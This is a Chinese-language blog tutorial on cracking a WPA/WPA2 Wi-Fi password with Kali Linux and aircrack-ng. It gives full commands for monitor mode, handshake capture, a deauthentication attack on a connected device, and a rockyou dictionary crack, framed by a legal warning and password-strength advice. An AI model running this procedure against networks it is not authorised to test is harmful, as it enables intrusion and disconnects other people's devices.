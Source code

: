 ```yaml
---
layout: post
title: Kali Linux使用Aircrack破解wifi密码(wpa/wpa2)
---
```


Kali Linux能做很多事，但是它主要以渗透测试及'破解wifi密码'闻名。

如果你使用Macbook，看这里：[使用macbook破解WPA/WPA2 wifi密码](http://topspeedsnail.com/macbook-crack-wifi-with-wpa-wpa2/)

要求：

* 安装有Kali Linux的计算机
* 支持监控模式的网卡，笔记本电脑一般都支持
* 字典文件
* 时间和耐心

这种攻击需要字典文件，一个好的字典至关重要。我以Kali Linux自带的rockyou字典为例，位于/user/share/wordlists/rockyou.txt.gz。

使用前先解压：

{% highlight shell %}
# gzip -d /usr/share/wordlists/rockyou.txt.gz
{% endhighlight %}

****

注意：破解其他人的wifi密码是“犯罪”，so，don't；我使用自己的无线路由器演示。

知道了攻击方法，你自然就知道怎么防范了。

****

### 1）首先断开连接的wifi。

在终端中执行：

{% highlight shell %}
# airmon-ng
{% endhighlight %}

![破解wifi密码]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-21 18-15-09.png)

上面命令列出了支持监控模式的无线网卡。如果没有任何输出，表示无线网卡不支持监控模式。你可以看到我的wlan0支持监控模式。

### 2）开启无线网卡的监控模式

{% highlight shell %}
# airmon-ng start wlan0
{% endhighlight %}

![破解wifi密码]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-21 18-20-32.png)

执行成功之后网卡接口变为wlan0mon；可以使用ifconfig命令查看。

### 3）查看wifi网络

{% highlight shell %}
# airodump-ng wlan0mon
{% endhighlight %}

![破解wifi密码]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-21 18-29-30.png)

上面列出了周围的wifi和它们的详细信息，包括信号强度、加密类型、频道等。要记住要破解wifi的频道号和BSSID。

按Ctrl-C结束。

### 4）抓取握手包

使用网卡的监听模式抓取周围的无线网络数据包。其中，对我们最重要的数据包是：包含密码的包－也叫握手包。当有新用户或断开用户自动连接wifi时，会发送握手包。

开始抓包：

{% highlight shell %}
# airodump-ng -c 6 --bssid C8:3A:35:30:3E:C8 -w ~/ wlan0mon
{% endhighlight %}

参数解释：

* -c指定频道号
* --bssid指定路由器bssid
* -w指定抓取的数据包保存位置

![破解wifi密码]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-21 18-40-12.png)

### 5）强制连接到wifi的设备重新连接路由器

现在我们只要等用户连接/重连接wifi了，运气不好也许要很长时间。

但是我们是不会等的，这不是耐心黑客该干的事。有一个叫aireplay-ng的工具，它可以强制用户断开wifi连接；原理是，给连接到wifi的一个设备发送一个deauth（反认证）包，让那个设备断开wifi，随后它自然会再次连接wifi。

aireplay-ng的生效前提是，wifi网络中至少有一个连接的设备。从上图(4)可以看到哪些设备连接到了wifi，STATION就是连接设备的MAC地址，记住一个。

打开新终端执行：

{% highlight shell %}
# aireplay-ng -0 2 -a C8:3A:35:30:3E:C8 -c B8:E8:56:09:CC:9C wlan0mon
{% endhighlight %}

参数解释：

* -0指定发送反认证包的个数
* -a指定无线路由器BSSID
* -c指定强制断开的设备

![破解wifi密码]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-21 19-06-35.png)

如果成功：

![破解wifi密码]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-21 19-06-55.png)

按Ctrl-C结束抓包。

我们已经得到了想要的握手包了，可以结束无线网卡的监控模式了：

{% highlight shell %}
# airmon-ng stop wlan0mon
{% endhighlight %}

![破解wifi密码]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-21 19-09-20.png)

### 6) 开始破解密码

{% highlight shell %}
# aircrack-ng -a2 -b C8:3A:35:30:3E:C8 -w /usr/share/wordlists/rockyou.txt ~/*.cap
{% endhighlight %}

参数解释：

* -a2代表WPA的握手包
* -b指定要破解的wifi BSSID。
* -w指定字典文件
* 最后是抓取的包

![破解wifi密码]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-21 20-06-53.png)

***

总结：防止这种攻击最简单的方法是设置贼复杂贼长的密码；另外不要使用WEP加密方式，非常容易被破解。 

[Kali Linux破解wifi密码(WEP)](http://topspeedsnail.com/kali-linux-crack-wifi-password-wep/)